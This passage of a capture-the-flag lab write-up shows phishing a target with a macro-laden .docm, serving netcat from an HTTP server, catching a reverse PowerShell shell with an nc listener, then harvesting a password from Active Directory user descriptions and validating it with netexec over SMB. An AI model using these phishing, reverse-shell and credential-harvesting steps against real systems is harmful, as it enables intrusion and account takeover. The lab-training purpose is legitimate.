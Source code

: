 ![Word Document Macro](word_document_macro.webp){: width="1200" height="600" }

Now, we reply to the email asking for the document, attaching our `.docm` file with the reverse shell macro.

![Thunderbird Reply](thunderbird_reply.webp){: width="1200" height="600" }

After sending the email and waiting for a couple of seconds, we see that `netcat` is being downloaded from our web server.

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.39.152 - - [19/Dec/2024 10:50:25] "GET /nc64.exe HTTP/1.1" 200 -
```

We also get a shell as the `scrawler` user on our listener and can read the second flag at `C:\Users\scrawler\Desktop\user.txt`.

```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.39.152] 65000
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
socmas\scrawler
PS C:\Windows\system32> type C:\Users\scrawler\Desktop\user.txt
THM{kr[REDACTED]0t}
```

### Access as Krampus_Debugger

Using our shell to check for users and their descriptions, we find a password in the description for the `Winterberry_Locksmit` user.

```console
PS C:\Windows\system32> Get-ADUser -Filter * -Property Description | Select-Object SamAccountName, Description

SamAccountName       Description
--------------       -----------
...
Winterberry_Locksmit PW: Ch[REDACTED]4!
...
```

Testing this password for the user using `netexec`, we see that it works.

```console
$ nxc smb fisher.socmas.corp -u 'Winterberry_Locksmit' -p 'Ch[REDACTED]4!'
SMB         10.10.39.152    445    FISHER           [*] Windows 10 / Server 2019 Build 17763 x64 (name:FISHER) (domain:socmas.corp) (signing:True) (SMBv1:False)
SMB         10.10.39.152    445    FISHER           [+] socmas.corp\Winterberry_Locksmit:Ch[REDACTED]4!
```
